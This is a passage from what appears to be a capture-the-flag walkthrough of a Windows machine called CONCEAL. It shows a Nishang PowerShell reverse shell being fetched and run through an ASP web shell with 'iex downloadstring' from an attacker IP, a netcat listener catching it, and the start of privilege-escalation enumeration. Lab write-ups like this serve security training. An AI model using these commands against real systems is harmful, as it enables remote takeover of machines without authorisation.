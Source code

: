 As this is a powershell environment, upload NISHANG's Invoke-PowerShellTcp script to trigger a reverse shell.

```console
curl https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1 -o rev.ps1
echo 'Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.24 -Port 1234' >> rev.ps1

---------------------------------------------------------------------------------

shell.asp command:
powershell -c iex(new-object net.webclient).downloadstring('http://10.10.16.24/rev.ps1')

---------------------------------------------------------------------------------

└─╼$ sudo rlwrap -cAr nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.16.24] from (UNKNOWN) [10.129.228.122] 49734
Windows PowerShell running as user CONCEAL$ on CONCEAL
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\SysWOW64\inetsrv> whoami
conceal\destitute
PS C:\Windows\SysWOW64\inetsrv> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeShutdownPrivilege           Shut down the system                      Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
```

## Privilege Escalation

### enum

- **systeminfo**: Windows 10 Enterprise x64

```console
Host Name:                 CONCEAL
OS Name:                   Microsoft Windows 10 Enterprise
OS Version:                10.0.15063 N/A Build 15063
System Type:               x64-based PC
```
